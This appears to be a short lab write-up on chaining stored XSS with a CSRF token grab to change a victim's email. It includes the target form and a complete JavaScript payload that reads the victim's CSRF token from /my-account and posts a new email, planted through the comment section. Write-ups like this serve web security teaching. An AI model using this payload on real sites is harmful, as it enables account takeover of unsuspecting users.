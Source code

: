 ``` 
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST"> 
                            <label>Email</label> 
                            <input required type="email" name="email" value=""> 
                            <input required type="hidden" name="csrf" value="CWCwUzyiYDtG2xlfZsxsI9XkXTB65wCv"> 

``` 

I can see that if I were to initiate a change of email a POST request is sent to `/my-account/change-email`. Containing the new email value and a required CSRF token that is also displayed in plaintext.  

With this information I can craft a script that when loaded by a user generates an email change request containing their CSRF token. I can then store this script onto the web server via the comment functionality and it will execute whenever a victim user visits the comment section on the web application. 

Exploit code: 

``` 
<script> 
var req = new XMLHttpRequest(); 
req.onload = handleResponse; 
req.open('get','/my-account',true); 
req.send(); 
function handleResponse() { 
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
    var changeReq = new XMLHttpRequest(); 
    changeReq.open('post', '/my-account/change-email', true); 
    changeReq.send('csrf='+token+'&email=test@test.com') 
}; 
</script> 
``` 

This script will craft a new HTTP `GET` request to `/my-account` and then go into the HTML on the page and grab the CSRF token asigned to that user and sets it to a variable `var token` It then crafts a new `POST` request to `/my-account/change-email` containing both the CSRF token of the victim user and the new email of my choosing. 
